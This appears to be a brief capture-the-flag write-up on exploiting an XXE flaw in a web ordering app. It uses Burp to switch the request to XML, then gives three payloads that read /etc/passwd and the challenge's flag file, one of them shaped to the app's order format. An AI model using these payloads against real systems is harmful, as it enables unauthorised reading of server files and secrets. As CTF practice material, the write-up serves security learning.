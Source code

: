 open the web 

xxe

use brup to intercept the order request

send the intercept into repeater

change the content type into xml

replace the existing json into this payload:
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY payload SYSTEM 'file:///etc/passwd'>]>
<root>&payload;</root>
```

-> Failed because need to choose the catagory first

open the orderContoller from the web source code to find what makes the web prompted to choose the category first

after seeing the order contoller file we found out that we need a specific xml format so that the back-end can read the xml payload

hence the payload become like this:
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY payload SYSTEM 'file:///etc/passwd'>]>
<order>
<food>&payload;</food>
</order>
```

!the input is not filtered at the orderContoller
passed directly

```
<?xlm version="1.0"?>
<!DOCTYPE root [<!ENTITY payload SYSTEM 'file:///flag'>]>
<order>
<food>&payload;</food>
</order>
```
